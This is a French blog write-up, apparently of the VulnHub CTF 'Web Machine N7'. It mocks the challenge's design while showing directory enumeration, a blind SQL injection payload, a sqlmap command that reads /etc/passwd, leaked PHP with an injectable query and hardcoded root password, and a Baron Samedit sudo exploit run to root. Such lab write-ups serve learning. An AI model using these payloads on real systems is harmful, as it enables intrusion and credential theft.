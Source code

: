 ```yaml
---
title: Solution du CTF Web Machine N7 de VulnHub
tags: [CTF, VulnHub]
---
```


Worst CTF Ever
--------------

[Web Machine N7](https://www.vulnhub.com/entry/web-machine-n7,756/) est le nom d'un CTF téléchargeable sur VulnHub (le dernier publié au moment de ces lignes) et a été créé par un certain *Duty Mastr* qu'ils auraient mieux fait de noyer à la naissance.  

C'est déjà avec une certaine appréhension que je télécharge la VM puisque déjà elle fait 5.7Go et d'après la capture d'écran sur VulnHub elle est basée sur une installation graphique de Kali Linux. Mais quel genre d'abrutit utiliserait Kali Linux comme base pour un CTF ?  

Une fois la VM importée on remarque qu'elle est configurée pour utiliser 8192 Mo de RAM là où 4096 sera amplement suffisant.  

Le nanard des CTF
-----------------

Un seul port ouvert, bien sûr un serveur Apache. Le site est une coquille vide et il faut tester un bon nombre de wordlists avant d’obtenir plus que le fichier *profile.php* et la page d'index. Mais, en testant tous les mots de la langue de Shakespeare, on découvre une page supplémentaire :  

```plain
$ feroxbuster -u http://192.168.56.18/ -w /opt/hdd/downloads/tools/wordlists/english -x php,html,txt

200       11l       27w      279c http://192.168.56.18/exploit.html
200       49l      107w     1620c http://192.168.56.18/index.html
200       43l       94w     1473c http://192.168.56.18/profile.php
```

Cette page *exploit.html* correspond à un formulaire d'upload qui poste vers *localhost/profile.php*.  

On peut bêtement utiliser les outils de développement du navigateur pour corriger cette URL avec la bonne adresse IP pour faire fonctionner l'upload.  

On est remercié par un flag mais le fichier n'est uploadé nul part... On a donc ici une étape qui ne sert à rien.  

Après encore plus d'énumération et comme on ne trouve rien il faut bien chercher sur Internet si quelqu'un est allé plus loin.  

Il existe en fait un dossier *enter\_network* à la racine du site que personne n'aurait pu trouver (mis à part en trichant) puisque ce path n'est présent dans aucune wordlist existante !  

Là on découvre une page de login dont Wapiti découvre rapidement qu'elle est vulnérable à une faille d'injection SQL en aveugle :  

```plain
---
Vulnérabilité d'injection SQL en aveugle dans http://192.168.56.18/enter_network/ via une injection dans le paramètre user
Evil request:
    POST /enter_network/ HTTP/1.1
    Host: 192.168.56.18
    Referer: http://192.168.56.18/enter_network/
    Content-Type: application/x-www-form-urlencoded

    user=%27%20or%20sleep%287%29%231&pass=Letm3in_&sub=SEND
---
```

A partir de là on joue un peu avec SQLmap. Forcément au vue de l'exploitation time-based c'est très lent mais on peut par exemple trouver le flag utilisé comme mot de passe pour l'administrateur dans une des tables.  

Ceci ne nous amène là encore strictement nul part. Toutefois les requêtes sont faites avec l'utilisateur *root* ce qui nous permet de lire les scripts web sur le serveur (avec l'option *--file-read* de SQLmap).  

```plain
python sqlmap.py -u "http://192.168.56.18/enter_network/" --data "user=zz&pass=zz&sub=SEND" -p user --dbms mysql --risk 3 --level 5  --technique=T --file-read=/etc/passwd --no-cast --time-sec=2
```

Par exmple le fichier */var/www/html/enter\_network/index.php* :  

```php
<!DOCTYPE html>
<html>
<head>
    <title>entering network</title>
</head>
<body>
    <?php
    $hostname = 'localhost';
    $username = 'root';
    $password = '123456789';
    $database = 'Machine';
$connect = mysqli_connect($hostname,$username,$password,$database);

if (isset($_POST['sub'])) {
    $user = $_POST['user'];
    $pass = $_POST['pass'];
    $query = "select * from login where username='$user' and password='$pass'";
    $result = mysqli_query($connect,$query);
    $row = mysqli_fetch_assoc($result);
    $role = 'admin';
    $role = urlencode(base64_encode(md5($role)));
    $cookie = $row['username'].':'.$row['password'];
    $cookie = base64_encode(password_hash($cookie,2));
    setcookie('user',$cookie, time()+10000,'/');
    setcookie('role',$role,time()+10000,'/');
}

?>
<center>
<form action="" method="POST">
    username: <input type="text" name="user">
    <br>
    password: <input type="password" name="pass">
    <br>
    <input type="submit" name="sub" value="SEND">
</form>
</center>

</body>
</html>
```

Le fichier */var/www/html/enter\_network/admin.php* :  

```php
<!DOCTYPE html>
<html>
    <head><title>admin interface</title></head>
<body>
    <?php
$hostname = 'localhost';
$username = 'root';
$password = '123456789';
$database = 'Machine';
$connect = mysqli_connect($hostname,$username,$password,$database);
$query = "select password from login";
$result = mysqli_query($connect,$query);
$row = mysqli_fetch_assoc($result);

if ($_COOKIE['role'] == 'admin') {
    $FLAG = explode(':',$row['password']);    
    echo $FLAG[1];;
}
else {
    echo 'this interface is admin only';
}

?>
</body>
</html>
```

et le fichier *profile.php* à la racine du site :  

```php
<?php
$hostname = 'localhost';
$username = 'root';
$password = '123456789';
$database = 'Machine';
$connect = mysqli_connect($hostname,$username,$password,$database);
$query = "select password from login";
$result = mysqli_query($connect,$query);
$row = mysqli_fetch_assoc($result);

if (isset($_FILES['file'])) {
    $FLAG = explode(':',$row['password']);    
    echo $FLAG[0];
}
?>
```

Oui vous avez bien compris, ces scripts ne permettent pas d'aller plus loin que la faille SQL déjà trouvée !  

On peut espérer profiter des droits root pour écrire un fichier sur le disque avec *SELECT INTO OUTFILE* sauf que c'est impossible car après vérification */var/www/html* est la propriété de root et donc *www-data* ne peut pas écrire dessus mais de plus l'utilisation d'une version récente de MySQL/MariaDB bloque ce genre de chose...  

Pour résumer on a :  

* des étapes qui ne servent à rien
* des étapes qui ne s'enchaînent pas
* un dossier impossible à trouver
* une VM d'une taille largement exagérée pour faire tourner 3 scripts PHP
* aucune découverte technique ni aucun plaisir sur ce CTF

Sous le capot
-------------

Si on boot la VM et que l'on sélectionne les options avancées on peut éditer l'entrée GRUB avec la touche *e* et [changer le mot de passe root](https://linuxconfig.org/recover-reset-forgotten-linux-root-password) histoire de fouiller un peu.  

Comme dit plus tôt toute écriture sur le disque est vouée à l'échec en raison des permissions. Seul le fichier *profile.php* dispose de permissions qui autorisent sa réécriture mais un des prérequis de *SELECT INTO OUTFILE* est que le fichier ne doit pas déjà exister.  

```plain
┌──(root💀kali)-[/var/www/html]
└─# ls -al /var/www/html 
total 176
drwxr-xr-x 3 root     root   4096 Oct 30 01:43 .
drwxr-xr-x 3 root     root   4096 Oct 29 21:10 ..
-rwxr-xr-x 1 root     root 149791 Oct 30 01:01 bootstrap.min.css
drwxr-xr-x 2 root     root   4096 Oct 30 01:44 enter_network
-rw-r--r-- 1 root     root    279 Oct 30 01:04 exploit.html
-rwxr-xr-x 1 root     root   1620 Oct 30 01:01 index.html
-rwxr-xr-x 1 root     root      0 Oct 30 01:01 javascript.js
-rwxrwxrwx 1 www-data root   1860 Oct 30 01:43 profile.php
-rwxr-xr-x 1 root     root    293 Oct 30 01:01 style.css
```

Soit l'auteur a choisit d'arrêter les frais à ce moment, soit il ne sait pas lire une page de manuel et dans tous les cas il n'a pas du tester son propre CTF.  

On découvre d'ailleurs en fouillant sur la machine qu'aucune exploitation locale n'a été mis en place volontairement. Le système est tout de même vulnérable à la faille Sudo Baron Samedit :  

```plain
┌──(kali㉿kali)-[~/CVE-2021-3156-main]
└─$ python exploit_nss.py 
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),129(lpadmin),135(scanner),148(kaboxer),1000(kali)
# lsb_release -a
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2020.4
Codename:       kali-rolling
```

Bref un CTF inutile et inutilisable qui ne fait que gaspiller du temps, de l'espace disque et de la bande passante.  


*Published January 09 2022 at 14:21*
